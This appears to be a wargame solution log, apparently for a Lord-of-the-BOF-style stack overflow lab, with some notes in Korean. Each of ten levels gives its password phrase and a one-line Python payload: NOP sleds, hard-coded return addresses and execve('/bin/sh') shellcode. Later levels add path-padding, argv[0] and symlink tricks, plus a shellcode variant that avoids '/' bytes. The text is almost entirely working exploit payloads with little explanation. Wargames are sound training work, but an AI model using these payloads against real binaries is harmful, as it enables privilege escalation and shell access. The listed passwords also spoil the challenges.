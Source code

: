 1. gate : gate
gremlin : hello bof world(GOT)(환경변수 사용)

2. cobolt : hacking exposed
PL : ./cobolt `python -c 'print "A"*20+"\x80\xf6\xff\xbf"+"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"' 

3. goblin : hackers proof
PL : (python -c 'print "A"*20+"\x80\xf6\xff\xbf"+"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"';cat) | ./goblin

4.orc: cantata
PL : ./orc `python -c 'print "A"*44+"\x84\xf6\xff\xbf"+"\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

5. wolfman : love eyuna
PL : ./wolfman `python -c 'print "A"*44+"\x84\xf6\xff\xbf" + "\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

6. darkelf : kernel crashed
PL : ./darkelf `python -c 'print "A"*44+"\x23\xfc\xff\xbf"'` `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

7. orge : timewalker
PL : /home/darkelf/../darkelf/../darkelf/../darkelf/../darkelf/../darkelf/././orge `python -c 'print "A"*44+"\x28\xf8\xff\xbf"'` `python -c 'print "\x90"*1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
/home/darkelf/orge => 18
/../orge => 8
/../darkelf => 11 * 5 
/. => 2 *2
/home/darkelf/../darkelf/../darkelf/../darkelf/../darkelf/../darkelf/././orge
/home/darkelf/../darkelf/../darkelf/../darkelf/../darkelf/../darkelf/./tmp/p8

0xbffffaf0:
0xbffffaa8


8. troll : aspirin
21(\x90) + 23(Shellode) + (bufferAddr) 
PL : $ exec -a `python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` ./troll `python -c 'print "A"*44 + "\x30\xfc\xff\xbf"'`

9. vampire : music world

PL : $ ./vampire `python -c 'print "\x90" * 44 + "\xff\xff\xfe\xbf" + "\x90" * 100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

10. skeleton : shellcoder
PL : 	$ ln -s skeleton `python -c 'print "\x90" * 100 +"\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`
	$ ./`python -c 'print "\x90" * 100 +"\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'` `python -c 'print "A" *44 + "\xaa\xff\xff\xbf"'`
/bin/sh without \x2f
\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
